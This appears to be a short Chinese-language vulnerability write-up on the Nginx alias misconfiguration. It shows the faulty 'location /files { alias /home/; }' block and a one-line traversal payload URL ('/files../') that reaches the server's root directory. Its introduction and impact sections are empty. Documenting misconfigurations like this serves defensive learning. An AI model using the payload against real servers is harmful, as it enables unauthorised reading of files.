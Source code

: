 Nginx 配置错误漏洞 目录穿越漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

Nginx在配置别名（Alias）的时候，如果忘记加`/`，将造成一个目录穿越漏洞。

错误的配置文件示例（原本的目的是为了让用户访问到/home/目录下的文件）：

    location /files {
        alias /home/;
    }

Payload: `http://www.0-sec.org:8081/files../` ，成功穿越到根目录：

![](resource/Nginx配置错误漏洞目录穿越漏洞/media/rId24.png)
